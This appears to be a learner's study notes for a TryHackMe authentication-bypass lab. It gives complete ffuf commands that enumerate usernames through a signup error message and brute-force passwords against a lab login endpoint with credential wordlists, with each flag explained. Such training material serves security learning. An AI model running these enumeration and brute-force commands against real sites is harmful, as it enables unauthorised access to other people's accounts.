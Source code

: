 # Room
https://tryhackme.com/room/authenticationbypass

# Task 1 - Intro
Intro

# Task 2 - Username Enumeration with ffuf
1. Enumeration
   * You can use the exsitence of an error message telling you a user exists to enumerate users
2. Enumeration Tools
   * ffuf - fuzz faster you fool
     * a web fuzzer written in Go
     * example
        ```
        ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.88.54/customers/signup -mr "username already"
        ```
      * https://github.com/ffuf/ffuf
      * ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt : define the wordlist
      * -X POST : HTTP method to use
      * -d "username=FUZZ&email=x&password=x&cpassword=x" : data to be used in the POST, FUZZ is the variable that will be replaced from the wordlist
      * -H "Content-Type: application/x-www-form-urlencoded" : header to pass in your fuzzing
      * -u http://10.10.88.54/customers/signup : URL to tickle
      * -mr "username already" : "mr" = match regular expression, match the phrase "username already" and print the results

# Task 3 - Brute Forcing with ffuf
1. Brute force
   * Using the valid usernames from the previous task, you can use a wordlist to attack them, ffuf to the rescue
   * example
    ```
    ffuf -w users3.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.88.54/customers/login -fc 200
    ```
   * side note - my initial input wasn't clean text, use cat file | xxd to find binary characters

# Task 4 - Logic Flaws
1. Logic Flaws
   * Occur when the designed flow of the application is circumvented

